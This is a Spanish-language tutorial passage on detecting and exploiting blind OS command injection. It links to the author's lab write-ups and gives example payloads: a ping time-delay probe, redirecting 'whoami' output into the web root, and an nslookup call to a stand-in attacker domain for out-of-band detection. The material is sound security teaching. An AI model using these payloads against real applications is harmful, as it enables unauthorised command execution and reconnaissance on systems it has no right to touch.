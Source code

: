 ```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

`La salida del comando mail no se devuelve en las respuestas de la aplicación`, por lo que usar un `payload` como `echo` no funcionará. En esta situación, se pueden usar `otras técnicas` para `detectar` y `explotar` la `vulnerabilidad`

### Detectar un blind command injection usando time delays

Se puede `inyectar un comando` para `provocar` un `delay`, lo cual permitiría `confirmar` que el `comando` se `ejecutó` basándose en `el tiempo que tarda la aplicación en responder`. El comando `ping` es una `buena opción`, ya que `permite especificar el número de paquetes ICMP a enviar`

Este comando hace que la aplicación `haga un ping a su loopback durante 10 segundos` y por lo tanto, nos permite `controlar el tiempo que tarda el comando en ejecutarse`:

```
& ping -c 10 127.0.0.1 &
```

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- Blind command injection with time delays - [https://justice-reaper.github.io/posts/Command-Injection-Lab-2/](https://justice-reaper.github.io/posts/Command-Injection-Lab-2/)

### Explotar blind command injection redirigiendo su output

Se puede `redirigir` la `salida del comando inyectado` a un `archivo` que esté en `directorio raíz` del `sitio web`, el cual luego podrá `leerse` desde el `navegador` accediendo a la `ruta` en la que se `encuentra`. Por ejemplo, si la `aplicación` aloja `recursos estáticos` en `/var/www/static`, se puede `enviar` el siguiente `input`:

```
& whoami > /var/www/static/whoami.txt &
```

El carácter `>` envía la `salida del comando whoami` al `archivo especificado`. Posteriormente podremos `leer` su `contenido` accediendo a la siguiente `ruta` en el `navegador`:

```
https://vulnerable-website.com/whoami.txt
```

En este `laboratorio` podemos ver como `aplicar` esta `técnica`:

- Blind command injection with output redirection - [https://justice-reaper.github.io/posts/Command-Injection-Lab-3/](https://justice-reaper.github.io/posts/Command-Injection-Lab-3/)

### Explotar un blind command injection usando técnicas out-of-band (OAST)

Se puede usar un `comando inyectado` que `genere` una `interacción` con un `sistema` que `controlamos`, usando técnicas `OAST`. Por ejemplo, este `payload` usa el comando `nslookup` para `realizar una consulta DNS` al `dominio especificado` 

```
& nslookup kgji2ohoyw.web-attacker.com &
```
